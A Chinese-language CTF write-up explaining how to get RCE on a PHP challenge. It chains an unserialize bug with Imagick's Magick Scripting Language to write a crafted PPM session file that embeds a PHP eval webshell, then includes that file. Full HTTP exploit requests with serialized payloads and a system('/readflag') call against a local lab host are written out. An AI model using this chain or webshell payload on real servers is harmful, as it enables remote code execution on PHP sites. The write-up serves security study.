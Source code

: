 ## 题目writeup：

题目灵感来自于`swarm`团队在7月14日发布的[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)，该文章展示了针对如下结构的php代码的一种全新攻击方法。
```php
new $_GET[1]($_GET[2]);
```

网站首页展示的就是源码。
![1](img/src.png)

存在反序列化漏洞，以及一个`backdoor`类。类中有两个特殊结构：
1. 在`__wakeup`可以执行一次任意无参函数的结构。
2. 在`__sleep`可以将任意文件包含。

`include`临时文件或者`session`即可`rce`，考虑如何触发`__sleep`。通过php内核源码可知，当前环境下唯一存在序列化的地方就是`session`，所以要想办法控制`session`数据。

接下来尝试触发`phpinfo`，收集信息。可以发现网站存在`imagick`扩展。
![1](img/phpinfo.png)

那么接下来就是利用imagick扩展的特性进行攻击。

根据这篇[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)发现，`imagick`类在初始化时可以执行`Magick Scripting Language`。那么考虑用其特性，在临时文件中写入`Magick Scripting Language`，然后在`imagick`类初始化的时候执行临时文件写入`session`文件。再触发`__sleep`包含`session`文件以`RCE`。

写入文件时须注意以下几点：
1. 因为`imagick`对文件格式解析较严，需要写入的文件必须是其支持的图片格式，如jpg、gif、ico等。如果直接插入`session`数据，会导致解析图片错误，导致文件无法写入。
2. `php`对`session`的格式解析也较为严格。数据尾不可以存在脏数据，否则`session`解析错误会无法触发`__sleep`。

所以我们需要找到一个容许在末尾添加脏数据，且脏数据不会被`imagick`抹去的图片格式。`imagick`共支持几十种图片格式，

找到一个这样的图片格式并不难。最后发现可以使用`ppm`格式，其不像其他图片格式存在`crc`校验或者在文件末尾存在`magic`头。结构十分简单，可以进行利用。

首先利用网站提供的功能，删除`/tmp`下的文件。
```http
GET /?cmd=rm HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*


```

然后如下发包。这样`imagick`就会开始执行`Magick Scripting Language`，写入文件`/tmp/sess_afkl`。
```http
POST /?data=O%3A8%3A%22backdoor%22%3A3%3A%7Bs%3A14%3A%22%00backdoor%00argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp%2A%22%3Bs%3A15%3A%22%00backdoor%00class%22%3Bs%3A7%3A%22imagick%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A0%3B%7D&cmd=unserialze HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Content-Length: 703
Content-Type: multipart/form-data; boundary=------------------------c32aaddf3d8fd979

--------------------------c32aaddf3d8fd979
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADw/cGhwIGV2YWwoJF9HRVRbMV0pOz8+fE86ODoiYmFja2Rvb3IiOjI6e3M6NDoicGF0aCI7czoxNDoiL3RtcC9zZXNzX2Fma2wiO3M6MTI6ImRvX2V4ZWNfZnVuYyI7YjowO30=" />
 <write filename="/tmp/sess_afkl" />
</image>
--------------------------c32aaddf3d8fd979--
```

随后使用执行一次任意无参函数的功能，触发`session_start`函数，并设置`cookie`为`PHPSESSID=afkl`，即可文件包含`session`，成功`RCE`。`flag`执行根目录的`readflag`即可。
```http
GET /?data=O%3A8%3A%22backdoor%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22session_start%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A1%3B%7D&cmd=unserialze&1=system('/readflag'); HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Cookie: PHPSESSID=afkl


```

![2](img/flag.png)